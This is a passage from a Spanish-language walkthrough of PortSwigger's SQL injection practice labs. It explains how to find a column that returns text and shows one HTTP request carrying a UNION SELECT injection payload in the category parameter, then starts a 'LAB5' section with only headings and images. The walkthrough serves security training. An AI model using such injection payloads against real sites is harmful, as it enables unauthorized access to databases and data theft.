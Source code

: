 Para que devuelva la cadena que se solicita, se puede introducir dentro de comillas simples en la selección de las columnas. Es importante saber que no siempre todos los campos son inyectables

```null
GET /filter?category=Accessories'+union+select+NULL,'Q1CbEn',NULL--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/17.png" alt="">

<img src="/img/articulos/sqli-portswigger/18.png" alt="">

# LAB5

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/19.png" alt="">

* **Página Principal**
